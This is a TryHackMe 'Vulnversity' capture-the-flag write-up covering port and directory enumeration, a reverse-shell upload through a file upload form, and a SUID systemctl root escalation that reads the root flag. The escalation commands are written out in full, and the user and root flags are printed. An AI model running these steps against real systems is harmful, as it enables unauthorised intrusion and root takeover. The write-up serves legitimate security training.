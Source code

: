 # THM - Vulnversity
**recon - privilege_escalate - reverse_shell**

## Enumeration
IP Address : 10.10.169.247
### 1.1 
#### nmap
**nmap -A 10.10.169.247**
./nmap file
=> 3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
### 1.2 
#### gobuster
**gobuster dir -u http://10.10.169.247 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt** 
/images (Status: 301)
/css (Status: 301)
/js (Status: 301)
/fonts (Status: 301)
/internal (Status: 301)
**gobuster dir -u http://10.10.169.247:3333/internal -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt** 
/uploads
### 1.2 
#### nikto
**nikto -h http://10.10.169.247:3333** 
/images (Status: 301)
/css (Status: 301)
/js (Status: 301)
/fonts (Status: 301)
/internal (Status: 301)

### Conclusion, vulnerabilities
In /internal it's possible to upload files. It's maby a revshell possibility with activation in /uploads.
## Exploit
### 1.1
#### Reverse shell
Name file reverse.phtml and upload, clic in /uploads and it's a reverse shell !
**python -c 'import pty; pty.spawn("/bin/bash")'** for stabilize shell.
In /home/bill => bill.txt

### Conclusion
It was possible to inject revshell.

## Privilege escalation
### 1.1
#### sudo
**find / -perm -4000 -print 2>&1**
Search for /bin/systemctl and find a possible vulnerability : 
**cd /bin**
**sh**
TF=$(mktemp).service
echo '[Service]
Type=oneshot**
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
./systemctl link $TF
./systemctl enable --now $TF**
**cat /tmp/output**
### Conclusion
With suid permission, it was possible to open an bash with root id
## Responses
### What is the user flag? : 
**THM{63e5bce9271952aad1113b6f1ac28a07}**
### What is the root flag? : 
**THM{6637f41d0177b6f37cb20d775124699f}**